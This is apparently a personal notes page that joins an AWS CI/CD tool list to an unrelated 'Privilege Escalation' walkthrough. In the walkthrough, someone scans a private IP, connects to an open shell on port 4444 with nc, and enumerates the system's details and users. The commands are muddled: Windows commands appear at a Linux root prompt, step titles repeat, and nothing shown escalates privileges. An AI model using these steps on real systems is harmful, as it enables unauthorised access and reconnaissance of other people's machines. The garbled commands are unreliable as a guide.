 ### Technology Stack for CICD 
Code ⮕ Build ⮕ Test ⮕ Deploy ⮕ Provision

a. For Code I would use either AWS Code Commit or GitHub or a third party code repository

b. For Building And Testing I use AWS CodeBuild or Jenkins CI or any third party CI servers

c. For Deployment and Provision I use Elastic Beanstalk or I provision infrasture with cloud formation
    I. for deployment I would use Code Deploy

d. To orchestrate everything I use AWS Code PipeLine

### Privellege Escalation
#### Step 1: launch Apache web server
~~~
# service apache2 status
~~~
```bash
root@omarbelkady:~$ nmap -sT 192.168.1.27 4444
```

#### Step 2: Check if port 4444 opened
```bash
root@omarbelkady:~$ netstat -an | find "4444"
```
#### Step 3: Check if port 4444 opened
```bash
root@omarbelkady:~$ nmap -sT 192.168.1.27
```

#### Step 4: Gain Access

```bash
root@omarbelkady:~$ nc 192.168.1.27 4444
```

#### Step 5: List Directories
```bash
root@omarbelkady:~$ dir
```

#### Step 6: List the system details
```bash
root@omarbelkady:~$ systeminfo
```

#### Step 7: Find the hostname
```bash
root@omarbelkady:~$ hostname
```

#### Step 8: Find the users in the environment
```bash
root@omarbelkady:~$ net users
```
